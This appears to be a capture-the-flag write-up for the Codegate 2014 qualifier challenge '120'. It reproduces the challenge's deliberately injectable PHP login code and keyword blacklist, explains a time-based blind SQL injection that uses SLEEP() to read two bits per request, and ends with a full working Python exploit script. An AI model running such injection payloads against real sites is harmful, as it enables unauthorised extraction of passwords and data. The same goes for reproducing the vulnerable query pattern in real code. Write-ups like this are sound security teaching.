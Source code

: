 ```yaml
---
layout: post
title: "Codegate 2014 Quals: 120"
date: 2014-02-26 06:51:10 +0000
permalink: /2014/02/26/codegate-2014-quals-120/
category: Security
tags:
  - CTF
  - Security
  - Shadow Cats
---
```

From Codegate 2014 quals comes "120".  Provided is a web interface with a single text box and a link to the source, reproduced below:

    #!php
    <?php
    session_start();
    
    $link = @mysql_connect('localhost', '', '');
    @mysql_select_db('', $link);
    
    function RandomString()
    {
      $filename = "smash.txt";
      $f = fopen($filename, "r");
      $len = filesize($filename);
      $contents = fread($f, $len);
      $randstring = '';
      while( strlen($randstring)<30 ){
        $t = $contents[rand(0, $len-1)];
        if(ctype_lower($t)){
        $randstring .= $t;
        }
      }
      return $randstring;
    }
    
    $max_times = 120;
    
    if ($_SESSION['cnt'] > $max_times){
      unset($_SESSION['cnt']);
    }
    
    if ( !isset($_SESSION['cnt'])){
      $_SESSION['cnt']=0;
      $_SESSION['password']=RandomString();
    
      $query = "delete from rms_120_pw where ip='$_SERVER[REMOTE_ADDR]'";
      @mysql_query($query);
    
      $query = "insert into rms_120_pw values('$_SERVER[REMOTE_ADDR]', ".
          "'$_SESSION[password]')";
      @mysql_query($query);
    }
    $left_count = $max_times-$_SESSION['cnt'];
    $_SESSION['cnt']++;
    
    if ( $_POST['password'] ){
      
      if (eregi("replace|load|information|union|select|from|where|" .
        "limit|offset|order|by|ip|\.|#|-|/|\*",$_POST['password'])){
        @mysql_close($link);
        exit("Wrong access");
      }
    
      $query = "select * from rms_120_pw where ".
        "(ip='$_SERVER[REMOTE_ADDR]') and " .
        "(password='$_POST[password]')";
      $q = @mysql_query($query);
      $res = @mysql_fetch_array($q);
      if($res['ip']==$_SERVER['REMOTE_ADDR']){
        @mysql_close($link);
        exit("True");
      }
      else{
        @mysql_close($link);
        exit("False");
      }
    }
    
    @mysql_close($link);
    ?>
    
    <head>
    <link rel="stylesheet" type="text/css" href="black.css">
    </head>
    
    <form method=post action=index.php>
      <h1> <?= $left_count ?> times left </h1>
      <div class="inset">
      <p>
        <label for="password">PASSWORD</label>
        <input type="password" name="password" id="password" >
      </p>
      </div>
      <p class="p-container">
        <span onclick=location.href="auth.php"> Auth </span>
        <input type="submit" value="Check">
      </p>
    </form>

The TL;DR of this code is that it uses your PHP session to store a 30 character lowercase letter token, and a counter of how many tries you've made against it.  You're given 120 total tries, then a new code will be generated, meaning any data you've been able to glean is useless.  For what it's worth, not all letters are equally likely -- the source of the data is Aleph One's "Smashing the Stack for Fun and Profit."  The code contains a blacklist to protect against certain types of SQL injection, but certainly doesn't cover all SQL injection possibilities.

So let's do some math.  Clearly, trying all possible passwords is out of the question at 26<sup>30</sup> possibilities.  With the SQL injection, we could try each character separately, using SUBSTR, but that still leaves us with 26*30 (780) possibilities, well more than the 120 we have to work with.  What about probabalistically trying the letters in the order of their frequency in the source document.  It turns out the letter distribution still requires ~8 tries per letter, meaning we can only get ~13 letters in our 120 tries, or would need 240 tries for the whole passphrase.

Let's consider that our character set is all lower case letters -- how much possible entropy is there?  Well, only the lowest 5 bits vary among lower case ASCII letters.  So, if we do a bitwise test, we only need 5*30 = 150 tests, but 150 is still too many.  If only we could test 2 bits at a time, then we'd only need (ideally) 75 tries.  How can we do that when the only signal we get back is a True/False value?  Well, we must consider side channels -- such as timing.  Merely measuring the timing of 2 bit comparisons is not significant enough to cover for network/server variance, but if we could conditionally introduce additional latency, we could use that as a signal.  Fortunately, SQL offers us a <a href='https://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep'><code>sleep()</code></a> function that we can use to introduce this latency and help us take measurements, but how to introduce it conditionally?

Note that the <code>sleep()</code> function returns a false-equivalent value when it completes.  Consider the statement <code>((A AND SLEEP(3)) OR B)</code>.  This is the truth table for the statement:

<table>
  <tr><th>A</th><th>B</th><th>Time</th><th>Output</th></tr>
  <tr><td>F</td><td>F</td><td>&lt;3 s</td><td>F</td></tr>
  <tr><td>T</td><td>F</td><td>&gt;3 s</td><td>F</td></tr>
  <tr><td>F</td><td>T</td><td>&lt;3 s</td><td>T</td></tr>
  <tr><td>T</td><td>T</td><td>&gt;3 s</td><td>T</td></tr>
</table>

As can be seen, the value of <code>A</code> controls the timing, and the value of <code>B</code> controls the output.  To read a single bit, we can use a construct like <code>ASCII(SUBSTR(password, N, 1)) &amp; 1 &lt;&lt; p</code>.  This checks if the p-th bit in the N-th byte is set.  Collectively, this gives us the ability to read 2 bits with a single request.  To break up the bits we need to read, it's most straightforward to read 1 bit by itself, then 2 pairs of 2 bits from each character.  Though suboptimal, it makes implementation straightforward, and still only requires 3 requests per byte, or 90 requests total.

Putting it all together, we get the following code.

    #!python
    import urllib
    import urllib2
    import cookielib
    import sys
    import time
    
    cj = cookielib.CookieJar()
    opener = urllib2.build_opener(urllib2.HTTPCookieProcessor(cj))
    
    cookies_printed = False
    
    def inject(pw):
      global cookies_printed
      data = urllib.urlencode({'password': pw})
      req = opener.open(
          'http://58.229.183.24/5a520b6b783866fd93f9dcdaf753af08/'
          'index.php', data)
      if not cookies_printed:
        for c in cj:
          print c
        cookies_printed = True
      return req.read().strip() == 'True'
    
    def stdinject(cond):
      return inject("' OR %s OR 'x'='" % cond)
    
    def indexmatch(pos, val):
      # Convert 0-indexed to 1-indexed
      substr = 'SUBSTRING(password, %d, 1)' % (pos+1)
      return stdinject(substr + ("='%s'" % val))
    
    def twobitchar(pos):
      bits = [0]*5
      substr = 'SUBSTRING(password, %d, 1)' % (pos+1)
      # test top most bit
      if stdinject('ASCII(%s) & %d' % (substr, 1 << 4)):
        bits[4] = 1
    
      def twobittest(lower):
        # (bit(1) and sleep(3)) or bit(2)
        # time indicate bit(1)
        # truth indicates bit(2)
        sleep_time = 3
        start_time = time.time()
        ascii_str = 'ASCII(%s)' % substr
        if stdinject('((%s & %d AND SLEEP(%d)) OR %s & %d)' % (
          ascii_str, 1 << (lower+1), sleep_time, ascii_str, 1 << lower)):
          bits[lower] = 1
        stop_time = time.time()
        if (stop_time - start_time) > sleep_time:
          bits[lower+1] = 1
    
      # test next 2 bits
      twobittest(2)
      # test last 2 bits
      twobittest(0)
    
      # reassemble bits
      return chr(int('0b11' + ''.join('%d' % b for b in reversed(bits)),2))
    
    def runtwobit():
      passwd = ''
      for c in xrange(30):
        passwd += twobitchar(c)
        print '[%d] %s' % (c, passwd[-1])
      if inject(passwd):
        print passwd
      else:
        print 'Validation failed!'
    
    runtwobit()

Note the need for special treatment for the HTTP requests -- since PHP sessions are in use, we need to provide a CookieJar and output the cookie value so we can use both the session and the password to exchange for our flag and get our points.
